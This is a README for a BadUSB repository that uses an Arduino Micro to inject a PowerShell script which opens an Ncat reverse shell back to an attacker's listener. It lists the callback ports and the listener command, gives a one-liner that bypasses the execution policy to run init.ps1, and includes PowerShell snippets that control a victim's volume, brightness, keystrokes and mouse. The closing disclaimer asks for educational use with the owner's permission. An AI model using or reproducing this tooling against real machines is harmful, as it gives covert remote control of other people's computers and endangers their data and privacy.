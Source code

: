 # Arduino Micro BadUSB
Arduino Micro BadUSB is a repository containing all the files and scripts necessary to run a HID (Human Interface Device) attack using an Arduino Micro or other similar microcontrollers. The client will be able to gain access to the target machine through a reverse shell using Ncat.

## Usage
Once the script in `deploy.ps1` has been entered via USB connection or manual input, the program will automatically set itself up.

The program will start attempting to connect to port 8888, 6969, 6699, 6996, 9669 when it has finished setting up.

The listener machine will have to execute the following command in powershell in order to allow the target machine to connect:
```powershell
.\ncat.exe -l [port_num]
```
Once connected, run the following command to allow script execution and run init.ps1
```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; cd..; .\init.ps1
```
## Shortcuts
This program can allow the listener to execute basic powershell commands on target machine, but also has a few extra features:

 - Volume control
 - Brightness control
 - Sending keystrokes
 - Mouse control

**Volume Control**
```bash
[audio]::Volume = 0.5 # 0.5 = 50%, etc.
[audio]::Mute = $true  # Set to $false to un-mute
```

**Brightness Control**
```powershell
Invoke-CimMethod -InputObject (Get-CimInstance -Namespace root/wmi -ClassName WmiMonitorBrightnessMethods) -MethodName WmiSetBrightness -Arguments @{Brightness = 50; Timeout = 1} # 50 = 50%, etc.
```

**Sending Keystrokes**
```powershell
$wshell = New-Object -ComObject wscript.shell # run this first
$wshell.SendKeys('some text')
$wshell.SendKeys('{ENTER}') # presses the ENTER key
$wshell.SendKeys('%{TAB}') # alt + TAB
$wshell.SendKeys('{e 21}') # presses e 21 times
```
See full list at [SendKeys Class (System.Windows.Forms)](https://learn.microsoft.com/en-us/dotnet/api/system.windows.forms.sendkeys)

**Mouse Control**
```powershell
# relative movement
$p1 = [System.Windows.Forms.Cursor]::Position.X + 100
$p2 = [System.Windows.Forms.Cursor]::Position.Y + 100

# absolute movement
$p1 = 1000
$p2 = 20

[System.Windows.Forms.Cursor]::Position = New-Object System.Drawing.Point($p1, $p2)
```



## Disclaimer
This repository and the files contained within it should be used on devices for educational purposes only with the owner's permission.

I do not take any responsibility for any loss of data, breach of privacy, or harm caused by the use this program. Use at your own risk.

